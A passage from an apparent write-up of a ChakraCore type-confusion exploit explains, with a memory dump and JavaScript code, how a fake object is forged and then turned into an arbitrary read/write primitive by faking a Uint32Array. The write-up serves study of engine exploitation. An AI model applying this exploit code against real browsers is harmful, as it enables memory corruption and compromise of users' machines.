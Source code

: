 Later the lower part and the upper part of the address ( `a2[0]` & `a2[1]` ) will be appended into `pDestArray` ( in the form of `int32` ). The memory layout of `res` array will become:

```
.......................
0x00007ffff02d8408│+0x10: 0x000100000000007e  <-- res[126]
0x00007ffff02d8410│+0x18: 0x000100000000007f  <-- res[127]
0x00007ffff02d8418│+0x20: 0x00007ffff03d84f0  <-- res[128]
```

Due to type confusion, now `res` will be treated as `JavascriptArray` and think that `res[128]` is an object ( which its address = `0x00007ffff03d84f0` ). By returning `res[128]` we now have the fake object's handle.

### arbitrary read/write primitive

The exploit code first fake an `Uint32Array` object, then modify its data buffer's pointer to obtain the arbitrary read/write primitive. To fake an `Uint32Array` object, it will need:

* Address of `Uint32Array`'s vtable.
* A pointer point to `0x30` ( `Uint32Array`'s type id. Check [this link](https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Types/EdgeJavascriptTypeId.h) for more information )
* A fake size
* An `ArrayBuffer`'s address
* A fake data buffer pointer

From the exploit code we can see it use `Array` to fake those data:

```javascript
...................
var real = new Array(16);
var real_addr = addrof(real);

// fake vtable pointer
real[0] = lower(uint_vtable); 
real[1] = upper(uint_vtable);

// fake type pointer
real[2] = lower(array_type);
real[3] = upper(array_type);

// dont care
real[4] = 0;
real[5] = 0;
real[6] = 0;
real[7] = 0;

// fake size
real[8] = 0x1000;
real[9] = 0;

// fake ArrayBuffer pointer
real[10] = lower(ab_addr);
real[11] = upper(ab_addr);

// dont care
real[12] = 0;
real[13] = 0;
```
